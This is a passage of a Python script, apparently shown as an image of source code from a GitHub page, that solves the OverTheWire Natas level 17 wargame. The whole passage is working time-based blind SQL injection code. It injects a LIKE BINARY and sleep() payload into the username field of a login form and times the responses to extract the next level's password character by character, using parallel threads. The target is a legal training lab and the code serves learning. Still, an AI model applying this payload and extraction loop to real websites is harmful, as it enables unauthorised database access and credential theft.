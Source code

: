 ```python
        return None


start_filter = time.perf_counter()
with concurrent.futures.ThreadPoolExecutor() as executor:
    result = executor.map(get_chars, all_chars)

    for r in result:
        if r is not None:
            print(r, end='', flush=True)
            filtered_chars = filtered_chars + str(r)

end_filter = time.perf_counter()
print(f'\nFiltering characters completed in {round(end_filter - start_filter, 2)} seconds')


def get_password(fc):
    data = {'username': 'natas18" and password LIKE BINARY "' + natas18_password + str(fc) +
                        '%" and sleep(' + str(sleep_time) + ') #'}

    attack_start = time.perf_counter()
    req = requests.post('http://natas17.natas.labs.overthewire.org/index.php?debug',
                        auth=HTTPBasicAuth('natas17', natas17_password), data=data)
    attack_end = time.perf_counter()
    attack_time = round(attack_end - attack_start, 2)

    if attack_time > 1:
        return str(fc)
    else:
        return None


start_password = time.perf_counter()
for _ in range(0, 32):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        result = executor.map(get_password, filtered_chars)

        for r in result:
            if r is not None:
                natas18_password = natas18_password + str(r)
                print(r, end='', flush=True)

end_password = time.perf_counter()
print(f'\nPassword search completed in {round(end_password - start_password, 2)} seconds')

end_script = time.perf_counter()
print(f'\nCompleted in {round(end_script - start_script, 2)} seconds')
```
